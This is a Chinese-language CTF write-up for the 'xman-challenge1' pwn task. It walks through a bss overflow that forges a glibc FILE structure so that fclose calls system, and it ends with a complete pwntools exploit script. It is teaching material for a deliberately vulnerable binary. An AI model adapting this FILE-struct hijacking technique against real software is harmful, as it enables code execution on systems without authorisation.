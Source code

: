 # 标题

> xman-challenge1

## **原理**

io_file

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**


 这是一道关于 io_file 非常简单的题
 
 ![](1.png)
 
 这段程序会向位于bss段的变量s赋值，由上图我们可以发现，一个file指针也位于相差0
 x100个字节的bss段。我们可以通过s来覆盖stream的值，改成一个我们想要的值。
 
 那我们可以先这样写payload：
 
 ```
 payload = 'a' * 0x100 + p64(buf_addr) 
 ```
 
 这样肯定是不行的，但是我们可以先调试一下，看看他会crash在哪里～
 
 ![](2.png)
 
 可以程序crash在了 cmp的语句，原因是`fault address 0x0` 因为现在 寄存器rdx的值为0x6161616161616161，是一个无效的地址。结下来我们看一下 rdx的值是怎么来的。
 
 ![](3.png)
 
 是[rbx+0x88]中的内容，此时 rbx的值 就是buf_addr。
 
 rbx+0x88其实就是 fp->lock 当lock==0的时候，就会不进行cmp操作。
 
 ![](4.png)
 
 由此 我们可以将payload的进化成下面这样：
 
 ```
 payload = ('\0' * 0x88 + p64(buf_addr)).ljust(0x100,'\0')+ p64(buf_addr)
 ```
 
 buf_addr是个有效地址，同时buf_addr+0x88地址上的值 也是 0。
 
 然后继续观察程序crash在了哪里～
 
 ![](5.png)
 
 ![](6.png)
 
 可见call操作的crash 此时rax的值是 0，在这里如果我们控制了rax的值 就可以进行我们想进行的操作，上图可以发现 rax就是[rbx+0xd8] rbx此时的值 就是buf_addr。 这样我们就构造了 下面的这个 payload。

```
pay = (('\0' * 0x10 + \
    p64(system) + \
    '\0' * 0x70 + \
    p64(buf_addr)).ljust(0xd8, '\0') + \
    p64(buf_addr)).ljust(0x100, '\0') + \
p64(buf_addr)
``` 

实际上，当我们调用 fclose的时候，就会触发。

完整exp：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

binary = './challenge1'
elf = ELF(binary)
libc = elf.libc

io = process(binary)
context.log_level = 'debug'
context.arch = elf.arch
context.terminal = ['tmux', 'splitw', '-h']

myu64 = lambda x: u64(x.ljust(8, '\0'))
ub_offset = 0x3c4b30

io.recvuntil(">")
io.sendline(str(1))

system = 0x400897
buf_addr = 0x6010c0

pay = (('\0' * 0x10 + \
    p64(system) + \
    '\0' * 0x70 + \
    p64(buf_addr)).ljust(0xd8, '\0') + \
    p64(buf_addr)).ljust(0x100, '\0') + \
p64(buf_addr)
io.sendline(pay)

io.recvuntil(">")
io.sendline('3')

io.interactive()

```


## **参考阅读**

[io_file](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction/)